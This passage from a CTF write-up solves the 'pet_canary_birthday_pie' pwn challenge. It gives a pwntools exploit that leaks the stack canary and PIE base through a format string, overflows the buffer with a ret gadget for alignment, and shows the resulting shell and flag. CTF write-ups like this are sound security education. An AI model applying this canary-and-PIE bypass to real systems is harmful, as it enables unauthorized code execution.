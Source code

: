```python
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --
io = start()
io.sendline(b"%11$p %17$p")
leaks = io.recv(numb = 40).split(b" ")
canary = int(leaks[0].decode(), 16)
exe.address = int(leaks[1].decode(), 16) - 0x1274
log.success(f"Canary: {hex(canary)}")
log.success(f"PIE: {hex(exe.address)}")

payload = b"A"*40
payload += pack(canary)
payload += pack(0)
payload += pack(exe.address + 0x101a)
payload += pack(exe.sym.win)

io.sendline(payload)
io.interactive()
```

Running this stack-aligned payload gives us the shell
```console
loevland@hp-envy:~/ctf/lit-ctf/pwn/pet_canary_birthday_pie$ python3 exploit.py
[+] Opening connection to litctf.org on port 31791: Done
[+] Canary: 0x44ec1b9c33702900
[+] PIE: 0x563b63fb7000
[*] Switching to interactive mode
$ cat flag.txt
LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}
```

It should be noted that another solution to the stack-alignment issue for this challenge is to jump to `exe.sym.win+8` instead of using the `ret`-instruction, becuase we then jump over the instructions which require the stack to be aligned.

